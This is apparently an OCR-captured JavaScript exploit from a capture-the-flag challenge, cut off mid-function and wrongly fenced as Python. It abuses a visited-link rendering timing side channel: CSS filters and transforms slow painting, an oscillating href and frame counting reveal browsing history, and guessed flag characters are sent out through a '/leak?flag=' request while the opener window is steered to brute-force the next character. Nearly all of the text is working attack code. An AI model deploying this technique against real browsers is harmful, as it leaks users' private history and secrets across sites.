 ```python
                targetLink.id = 'target';
                targetLink.href = basisUrl;
                
                var garbageText = '業雲多受片主...'.repeat(28);
                targetLink.appendChild(document.createTextNode(garbageText));
                
                targetLink.style.display = 'block';
                targetLink.style.width = '5px';
                targetLink.style.fontSize = '2px';
                targetLink.style.outlineWidth = '24px';
                targetLink.style.textAlign = 'center';
                targetLink.style.filter =
                    'contrast(200%) drop-shadow(16px 16px 10px #fefefe) saturate(200%)';
                targetLink.style.textShadow = '16px 16px 10px #fefffe';
                targetLink.style.transform = 'perspective(100px) rotateY(37deg)';
                
                document.body.appendChild(targetLink);
                
                requestAnimationFrame(function () {
                    requestAnimationFrame(function () {
                        runTestStage(false);
                    });
                });
            });
            
            function runTestStage (isExperimentStage) {
                var testUrl = isExperimentStage ? experimentUrl : controlUrl;
                startCountingTicks();
                startOscillatingHref(testUrl);
                
                setTimeout(async function () {
                    stopOscillatingHref();
                    
                    if (!isExperimentStage) {
                        controlTickCount = stopCountingTicks();
                        runTestStage(true);
                        return;
                    }
                    
                    var experimentTickCount = stopCountingTicks();
                    targetLink.remove();
                    
                    var ratio = experimentTickCount / controlTickCount;
                    console.log("RATIO", experimentTickCount, controlTickCount, ratio)
                    var likelyVisited = ratio < 0.7;
                   
                    async function sendBeacon(cond){
                        let url = opener ? opener.location.hash.substring(1) : "flag{g68r|a";
                        let [guess, current_guess] = url.split('|');
                        if(cond){
                            await fetch(`/leak?flag=${guess}${current_guess}`);
                            if (opener) {
                                opener.location.href = `/?query=${Math.random()}&ratio=${ratio}#${guess}${current_guess}|a`;
                            }
                        }
                        else {
                            let charset = '{{ CHARSET }}'.split('');
                            if (opener) {
                                opener.location.href = `/?query=${Math.random()}&ratio=${ratio}#${guess}|${charset[charset.indexOf(current_guess)+1]}`;
                            }
                        }
```